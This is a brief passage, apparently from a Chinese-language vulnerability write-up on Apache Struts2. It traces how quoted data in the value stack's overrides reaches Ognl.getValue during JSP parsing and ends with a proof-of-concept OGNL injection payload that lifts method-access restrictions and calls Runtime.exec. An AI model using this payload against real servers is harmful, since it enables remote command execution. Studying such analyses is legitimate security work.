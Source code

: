 后续将处理好的数据放到了stack的overrides里面

而实际触发的地方跟S2-001一样，是在解析JSP的时候造成的

<img src="/images/talk_about_struts2/image-20200509114347567.png" alt="image-20200509114347567" style="zoom:50%;" />

在`tryFIndValue`函数中，从stack的overrides中取出前面加了单引号的数据，并在后续调用`Ognl.getValue`，导致了Ognl表达式的执行。

### POC

```java
'+ (#_memberAccess.allowStaticMethodAccess=true,#context['xwork.MethodAccessor.denyMethodExecution']=false,@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app')) +'
```
